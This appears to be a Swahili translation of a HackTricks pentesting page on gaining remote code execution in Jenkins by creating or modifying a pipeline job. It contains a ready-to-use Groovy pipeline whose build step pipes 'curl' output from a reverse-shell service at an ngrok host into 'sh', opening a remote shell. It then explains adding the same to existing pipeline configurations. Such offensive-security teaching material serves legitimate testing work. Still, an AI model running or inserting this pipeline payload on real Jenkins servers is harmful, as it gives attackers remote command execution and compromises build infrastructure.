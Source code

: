 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Kuunda Pipeline Mpya

Katika "Kitu Kipya" (inapatikana katika `/view/all/newJob`) chagua **Pipeline:**

![](<../../images/image (235).png>)

Katika **sehemu ya Pipeline** andika **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Hatimaye bonyeza **Save**, na **Build Now** na pipeline itatekelezwa:

![](<../../images/image (228).png>)

## Kubadilisha Pipeline

Ikiwa unaweza kufikia faili ya usanidi ya pipeline fulani iliyowekwa unaweza tu **kuibadilisha kwa kuongeza shell yako ya nyuma** na kisha kuitekeleza au kusubiri hadi itekelezwe.

{{#include ../../banners/hacktricks-training.md}}
